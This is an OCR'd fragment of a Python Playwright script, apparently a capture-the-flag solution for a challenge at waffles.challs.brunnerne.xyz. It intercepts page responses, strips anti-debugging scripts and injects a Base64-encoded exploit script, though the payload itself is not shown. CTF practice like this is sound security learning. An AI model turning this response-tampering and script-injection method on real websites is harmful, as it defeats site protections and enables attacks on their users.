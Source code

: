 ```python
                        print("   🔓 Decrypted Body (hex):", decrypted_bytes.hex())
                    except Exception as e:
                        print("   (Couldn't decrypt body)", str(e))
            
            try:
                response = await route.fetch()
                if response.headers.get("content-type", "").startswith("text/html"):
                    body = await response.text()
                    
                    # Remove anti-debug / anti-hacker scripts from the page
                    body = re.sub(r'document\.open\(\);\s*document\.write\(t\);\s*document\.close\(\);', '', body, flags=re.DOTALL)
                    body = re.sub(r'document\.open\(\);\s*document\.write\("Oi! You hacker types are not welcome!"\);\s*document\.close\(\);', '', body, flags=re.DOTALL)
                    
                    # Find the injection point in the original script
                    pattern = re.compile(r"(bootstrapping\.onload\s*=\s*\(\)\s*=>\s*\{)")
                    if pattern.search(body):
                        # Inject our safe, one-line Base64 decoder script
                        body = pattern.sub(r"\1" + injector_script, body, count=1)
                        print("   ✨ Injected final Base64-encoded exploit.")
                    else:
                        print("   (Could not find bootstrapping.onload to inject script)")

                    await route.fulfill(response=response, body=body)
                else:
                    await route.fulfill(response=response)
            except Exception as e:
                print(f"   (Could not modify response for {url}: {e})")
                await route.continue_()

        await page.route("**/*", log_and_modify_request)

        # Basic response logger
        async def log_response(response):
            try:
                print("-" * 80)
                print(f"⬅️  RESPONSE: {response.status} {response.url}")
            except Exception as e:
                print("Error logging response:", e)

        page.on("response", log_response)

        print("\n[+] Starting exploit...")
        await page.goto("https://waffles.challs.brunnerne.xyz/", wait_until="networkidle")
        print("\n✅ Verbose proxy logging started. JS modifications and injections are active.\n")
        print(">>> Check the browser page for the exploit script output. The page will reload if it hits a 400 error. <<<")

        # Keep the browser open so we can see the result.
        await asyncio.Event().wait()

if __name__ == "__main__":
    print("To run this script, you need Playwright: pip install playwright")
    print("You also need to install its browsers: python -m playwright install chromium")
    asyncio.run(main())
```
